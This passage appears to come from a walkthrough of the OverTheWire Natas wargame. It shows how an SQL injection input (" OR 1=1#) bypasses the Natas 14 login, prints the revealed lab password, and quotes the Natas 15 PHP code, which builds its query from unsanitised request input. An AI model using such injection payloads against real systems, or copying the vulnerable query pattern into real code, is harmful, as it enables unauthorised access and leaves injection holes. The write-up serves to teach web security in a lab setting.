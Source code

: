 Here we got an SQL Injection, if you check the query you can see that we can easly bypass the authentication :

```sql
SELECT * from users where username="user" and password="pass"
```

If we put **" OR 1=1#** into the username field, you can see that we succesfully take over the logic of the query and force it to return *true* (the **#** will make sure that remaining of the query will be passed as comment) :


```sql
SELECT * from users where username="user" OR 1=1# " and password="pass"
```

Congrats, you solved the challenge.

```text
Successful login! The password for natas15 is AwWj0w5cvxrZiONgZ9J5stNVkmxdk39J
```

## Natas 15 Solution

**URL :** [http://natas15.natas.labs.overthewire.org](http://natas15.natas.labs.overthewire.org) <br/>
**Credentials :** *natas15:AwWj0w5cvxrZiONgZ9J5stNVkmxdk39J*

Here is the PHP code for this challenge :

```php
<? 

/* 
CREATE TABLE `users` ( 
  `username` varchar(64) DEFAULT NULL, 
  `password` varchar(64) DEFAULT NULL 
); 
*/ 

if(array_key_exists("username", $_REQUEST)) { 
    $link = mysql_connect('localhost', 'natas15', '<censored>'); 
    mysql_select_db('natas15', $link); 
     
    $query = "SELECT * from users where username=\"".$_REQUEST["username"]."\""; 
    if(array_key_exists("debug", $_GET)) { 
        echo "Executing query: $query<br>"; 
    } 

    $res = mysql_query($query, $link); 
    if($res) { 
    if(mysql_num_rows($res) > 0) { 
        echo "This user exists.<br>"; 
    } else { 
        echo "This user doesn't exist.<br>"; 
    } 
    } else { 
        echo "Error in query.<br>"; 
    } 

    mysql_close($link); 
} else { 
?> 
```
